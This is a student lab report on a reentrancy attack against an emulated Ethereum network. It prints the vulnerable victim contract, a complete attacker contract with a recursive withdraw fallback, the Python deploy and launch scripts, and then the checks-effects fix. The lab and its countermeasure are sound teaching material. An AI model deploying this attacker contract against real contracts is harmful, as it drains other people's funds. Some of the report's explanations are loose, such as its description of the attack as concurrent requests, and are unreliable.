









# Report 7: Blockchain Reentrancy Attack

In this lab we will explore blockchain technology. In recent years blockchain has gained a lot of popularity and use with cryptocurrencies. However, with it came a new surface for attacks. In this lab we will explore one of them called Reentracy Attack.
Bu first we have to set up our environment.

For this we downloaded the provided **zip** file. In it there were emulators, we chose **emulator_10** and ran the **docker-compose.yml**. The docker simulates a functioning blockchain with multiple nodes.
We also add to install a **web3** python library to execute the different blockchain operations in the smart contracts.

With this done, we are finally ready to start the lab.

## Task 1: Getting Familiar with the Victim Smart Contract

Accounts on the blockchain are based on **smart contracts**. They act as rules and functions an user can use over the blockchain, such has deposit, send and check balance. The **contract** for the victim is vulnerable, as we will see later, the withdraw function is open for exploits.
In this task we will explore how **contracts** work, how we can compile them and deploy them. 
Bellow is the victim's **contract**:

```sol
pragma solidity ˆ0.6.8;

contract ReentrancyVictim {
    mapping (address => uint) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw(uint _amount) public {
        require(balances[msg.sender] >= _amount);

        (bool sent, ) = msg.sender.call{value: _amount}("");
        require(sent, "Failed to send Ether");

        balances[msg.sender] -= _amount;
    }

    function getBalance(address _addr) public view returns (uint) {
        return balances[_addr];
    }

    function getContractBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

We can see that the contract has 4 functions. 
The one we will be focusing on is the **withdraw** as it is the one that is vulnerable to the atack explored in this lab.
**Withdraw** has only one parameter, it is the ammount of ether the caller wants to get back. It is dependent on who calls the function, **msg.sender** and it can't be used to withdraw more ether than the ammount that exists in the **smart contract** of the sender. The line **require(balances[msg.sender] >= _amount);** is responsible for checking if there are sufficient funds to withdraw. If the check passes then the caller will get the specified ammount of ether. It will be sent by the **call** function that will update the ledger of all the blockchain. The problem with this function is that it has a reentrancy vulnerability. The line where we check funds and when the funds are actually updated, that being **balances[msg.sender] -= _amount;**, are seperated with the line **(bool sent, ) = msg.sender.call{value: _amount}("");**. What this means is that an attacker can send a bunch of withdraw requests at the same time and they can go through even though his balance has not been updated yet. In this way it is possible to drain the victims balance.

After exploring how **smart contracts** work, we are now ready to compile them. The contract is written in a file with the extension **.sol** and using **solc** to compile the contract into two files, a **.bin** that contains the bytecode that wll be stored in the blockchain. And another with the **.abi** extension that contains the API of the contract so we know the name of the functions to interatc with the contract in the blockchain. We can compile the contract by running the following command:

```sh
solc-0.6.8 --overwrite --abi --bin -o . ReentrancyVictim.sol
```



After creating these two files we can deploy the contract to the blockhain by executing the provided python function:

```py
from web3 import Web3
import SEEDWeb3
import os

abi_file = "../contract/ReentrancyVictim.abi"
bin_file = "../contract/ReentrancyVictim.bin"

# Connect to a geth node
web3 = SEEDWeb3.connect_to_geth_poa(’http://10.150.0.71:8545’)

# We use web3.eth.accounts[1] as the sender because it has more ethers
sender_account = web3.eth.accounts[1]
web3.geth.personal.unlockAccount(sender_account, "admin")
addr = SEEDWeb3.deploy_contract(web3, sender_account, abi_file, bin_file, None) 
print("Victim contract: {}".format(addr))
with open("contract_address_victim.txt", "w") as fd:
    fd.write(addr)
```
The line **addr = SEEDWeb3.deploy_contract(web3, sender_account, abi_file, bin_file, None)** creates the contract and exectutes the deploy function. The following image shows the result of executing it:



So the address of the contract generated is: **0xbA977a3dF7c3E0A926Fa46EA749f3C182147f4F8**. We can now use this address to execute the different functions contained in the smart contract.
We will now modify the **fund_victim_contract.py** and **withdraw_from_victim_contract.py** to use our address as such:

```py
from web3 import Web3
import SEEDWeb3
import os

abi_file = "../contract/ReentrancyVictim.abi"
victim_addr = '0xbA977a3dF7c3E0A926Fa46EA749f3C182147f4F8'

# Connect to our geth node, select the sender account
web3 = SEEDWeb3.connect_to_geth_poa(’http://10.151.0.71:8545’)
sender_account = web3.eth.accounts[1]
web3.geth.personal.unlockAccount(sender_account, "admin")

# Deposit Ethers to the victim contract
# The attacker will steal them in the attack later
contract_abi = SEEDWeb3.getFileContent(abi_file)
amount = 30 # the unit is ether
contract = web3.eth.contract(address=victim_addr, abi=contract_abi)
tx_hash = contract.functions.deposit().transact({
                'from': sender_account,
                'value': Web3.toWei(amount, 'ether')
            })

print("Transaction sent, waiting for the block ...")
tx_receipt = web3.eth.wait_for_transaction_receipt(tx_hash)
print("Transaction Receipt: {}".format(tx_receipt))


# print out the balance of my account and the entire contract
myBalance = contract.functions.getBalance(sender_account).call()
print("----------------------------------------------------------")
print("== My balance inside the contract:")
print("   {}: {}".format(sender_account, myBalance))
print("== Smart Contract total balance:")
print("   {}: {}".format(victim_addr, web3.eth.get_balance(victim_addr)))
print("----------------------------------------------------------")
```

```py
from web3 import Web3
import SEEDWeb3
import os

abi_file    = "../contract/ReentrancyVictim.abi"
victim_addr = '0xbA977a3dF7c3E0A926Fa46EA749f3C182147f4F8'

# Connect to our geth node
web3 = SEEDWeb3.connect_to_geth_poa('http://10.150.0.71:8545')

# We use web3.eth.accounts[1] as the sender because it has more Ethers
sender_account = web3.eth.accounts[1]
web3.geth.personal.unlockAccount(sender_account, "admin")

# Deposit Ethers to the victim contract
# The attacker will steal them in the attack later
contract_abi  = SEEDWeb3.getFileContent(abi_file)
contract = web3.eth.contract(address=victim_addr, abi=contract_abi)
amount = 5
tx_hash  = contract.functions.withdraw(Web3.toWei(amount, 'ether')).transact({
                    'from':  sender_account
                })
print("Transaction sent, waiting for the block ...")
tx_receipt = web3.eth.wait_for_transaction_receipt(tx_hash)
print("Transaction Receipt: {}".format(tx_receipt))

# print out the balance of my account and the entire contract
myBalance = contract.functions.getBalance(sender_account).call()
print("----------------------------------------------------------")
print("== My balance inside the contract:")
print("   {}: {}".format(sender_account, myBalance))
print("== Smart Contract total balance:")
print("   {}: {}".format(victim_addr, web3.eth.get_balance(victim_addr)))
print("----------------------------------------------------------")
```

When executing we fund 30 ether to the smart contract and withdraw 5 of them, leaving only 25 ether on the account as we can see in the images bellow:





We can now start setting up the attacker's contract.

## Task 2: The Attacking Contract

In this task we will explore the attacker's contract and how it can exploit the vulnerability in the withdraw function on the victim's contract. The following is the attacker's contract:

```sol
pragma solidity ^0.6.8;

import "./ReentrancyVictim.sol";

contract ReentrancyAttacker {
    ReentrancyVictim public victim;
    address payable _owner;
    
    constructor(address payable _addr) public {
        victim = ReentrancyVictim(_addr);
        _owner = payable(msg.sender);
    }
    
    fallback() external payable {
        if(address(victim).balance >= 1 ether) {
            victim.withdraw(1 ether);
        }
    }
    
    function attack() external payable {
        require(msg.value >= 1 ether, "You need to send one ether when attacking");
        victim.deposit{value: 1 ether}();
        victim.withdraw(1 ether);
    } 
    
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
 
    function cashOut(address payable _addr) external payable {
        require(msg.sender == _owner);
        _addr.transfer(address(this).balance);
    }
}
```

The **attack** and **fallback** are the 2 functions that will be used for the attack. To execute the exploit we will call the **attack**. This function deposit 1 ether to the victim and then will immediately withdraw 1 ether from the victim, this will trigger the reentrancy attack. As explained above, the victim's withdraw function is vulnerabe and will send 1 ether back to the attacker which will cause the attacker's fallback funtion to trigger which will withdraw 1 ether from the victim once again. Because the attacker's balance is not yet updated, the check will pass once again and 1 ether will be sent again even though the attacker's balance is 0. This will continue to trigger until the victim is out of ether.

We will now deploy the attacker's contract using the following python program:

```py
from web3 import Web3
import SEEDWeb3
import os

abi_file        = "../contract/ReentrancyAttacker.abi"
bin_file        = "../contract/ReentrancyAttacker.bin" 
victim_contract = '0xbA977a3dF7c3E0A926Fa46EA749f3C182147f4F8'


# Connect to our geth node 
web3 = SEEDWeb3.connect_to_geth_poa('http://10.151.0.71:8545')

# We use web3.eth.accounts[1] as the sender because it has more Ethers
sender_account = web3.eth.accounts[1]
web3.geth.personal.unlockAccount(sender_account, "admin")
addr = SEEDWeb3.deploy_contract(web3, sender_account,
                     abi_file, bin_file, victim_contract)
print("Attack contract: {}".format(addr))
with open("contract_address_attacker.txt", "w") as fd:
    fd.write(addr)
```

The execution of the program results in the following image:



So the attacker's contract address is: **0xe66e55BC1Dd18120cf7a8cc6791F64Fe0AF1bA12**. With this done we can finally execute the attack in the following task.

## Task 3: Launching the Reentrancy Attack

To execute the attack we have to call the **attack** function using the attacker's address. We can do that by executing the **launch_attack.py**. We can see the script bellow:

```py
from web3 import Web3
import SEEDWeb3
import os

web3 = SEEDWeb3.connect_to_geth_poa('http://10.151.0.71:8545')

sender_account = web3.eth.accounts[1]
web3.geth.personal.unlockAccount(sender_account, "admin")

abi_file      = "../contract/ReentrancyAttacker.abi"
attacker_addr = '0xe66e55BC1Dd18120cf7a8cc6791F64Fe0AF1bA12'

# Launch the attack
contract_abi  = SEEDWeb3.getFileContent(abi_file)
contract = web3.eth.contract(address=attacker_addr, abi=contract_abi)
tx_hash  = contract.functions.attack().transact({ 
                    'from':  sender_account,
                    'value': Web3.toWei('1', 'ether')
                })
print("Transaction sent, waiting for block ...")
tx_receipt = web3.eth.wait_for_transaction_receipt(tx_hash)
print("Transaction Receipt: {}".format(tx_receipt))
```

The following images show what happens when we execute the attack:





As we can see, the attack works and we drained the victim's account! With the new funds in his account, the attacker can now **cashout** his gains to another account.

## Task 4: Countermeasures

So, now that we know how the attack works, how can we prevent it from happening? The solution is modifying the withdraw function in the victim's contract. Bellow is how we changed the function:

```sol
function withdraw(uint _amount) public {
    require(balances[msg.sender] >= _amount);

    balances[msg.sender] -= _amount;

    (bool sent, ) = msg.sender.call{value: _amount}("");
    require(sent, "Failed to send Ether");
}
```

As we can see above, before we actually send the ethers, we are updating the sneder's balance. This should prevent the attack from happening. 
To test we will once again compile the contract, create a new victim and attacker and once again try to attack it in the same way as before. The result of this attempt is in the images bellow:





As we can see, the attack does not work anymore!

Reentrancy Attacks are one of the most common attacks in a blockchain environment. They can be very destructive as we saw above. One such case happend in 2016 in the ethereum blockchain that caused 60 Million dollars to be drained! With this lab we now know about such attacks and, hopefully, how to protect ourselves from them.

### Authored by:
    Eduardo Ramos, up201906732
    Leandro Silva, up202008061
    Luís Paiva, up202006094
